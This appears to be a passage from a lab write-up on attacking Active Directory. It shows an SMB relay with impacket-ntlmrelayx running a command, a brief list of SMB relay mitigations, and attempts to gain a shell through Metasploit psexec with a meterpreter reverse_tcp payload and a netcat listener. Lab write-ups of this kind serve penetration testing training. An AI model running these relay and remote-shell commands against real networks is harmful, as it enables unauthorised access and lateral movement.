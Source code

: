 Once interactive shell has been obtained as seen above, we can now bind this with netcat via the SMB shell TCP on 127.0.0.1:11000  
Once netcat has been binded to list all the available arguments that is available to be used in this specific shell environment.  

![image](https://github.com/user-attachments/assets/5ea73547-920d-4d1d-8ce7-085dadedbfc1)

7. Using command switch with impacket. 

            impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"

![image](https://github.com/user-attachments/assets/0bda36ba-980a-444a-ad6d-de4fa828981a)  

SMB relay attack with -c 'whoami' flag successful

## 🔵 SMB Relay attack Mitigations

1. Enable SMB Signing on all devices.
2. Accounting Tiering (limiting specific accounts to defined tasks).
3. Local admin restriction.
4. Disable NTLM authentication (completely stops the attack however if Kerberos fails, it cannot default to NTLM authentication).

---

## 🚩 Gaining Shell Access

### 🔴 Metasploit module using psexec  
In metasploit we have chosen the windows/smb/psexec module  
![image](https://github.com/user-attachments/assets/5a95bb0b-2ef1-4559-9047-239d20571096)  

and set payload to x64 compatible as most* modern machines run x64.

            set payload windows/x64/meterpreter/reverse_tcp

configure the options with the information gathered in the LLMNR attack.

![image](https://github.com/user-attachments/assets/24e94831-edbe-47ec-b388-2287fe5ac5ba)

After trying to run, the exploit was suggested to be succesful however no session was created.  
Tried to debug this issue by setting payload to non x64 version, setting exploit targets to different settings, changing LPORT to 5555, setting up metasploit multi handler for connections and also nc -nlvp 4444. With no success.

![image](https://github.com/user-attachments/assets/e0567cb8-f6f3-4060-bcb4-81e7ad6cf4b6)  

Not a big deal... we can try to manually exploit it via a hash attack... (My preferred way anyways ;]) 

### 🔴 Manual mode using psexec.py / wmiexec / atexec 
Using impacket-psexec there seems to be a failure in popping a shell when using psexec.
![image](https://github.com/user-attachments/assets/b241e679-e193-444a-b7ef-4ff5e68e1a43)
